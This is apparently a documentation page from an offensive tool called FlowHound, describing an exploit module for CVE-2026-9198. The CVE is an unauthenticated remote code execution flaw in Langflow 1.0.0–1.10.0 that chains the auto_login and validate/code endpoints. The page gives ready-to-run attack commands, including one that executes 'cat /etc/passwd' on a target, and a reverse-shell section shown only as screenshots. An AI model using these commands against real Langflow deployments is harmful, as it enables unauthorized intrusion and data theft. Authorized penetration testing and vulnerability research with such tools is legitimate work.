

repository: rmhowe425/FlowHound · page: cves/cve_2026_9198/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability impacting Langflow that allows attackers to chain /api/v1/auto_login (mints SUPERUSER tokens to any network caller) with /api/v1/validate/code (executes user code via exec()) to achieve full RCE on default Langflow deployments.

**Impacted Versions:** Langflow versions 1.0.0 through 1.10.0


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-9198
```

![image](../images/cve/9d839c48-6c3f-4fcd-b536-f6f3f663d256.png)


## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-9198 --command "cat /etc/passwd"
```

![image](../images/cve/3f519bab-d468-40ef-8381-b808a8827ecd.png)


## Reverse TCP Persistent Connection
![image](../images/cve/919ee707-0c88-4b21-a3a8-2523234428bf.png)

![image](../images/cve/9afe8bb3-d4c0-4aa9-88ff-719937445cf5.png)
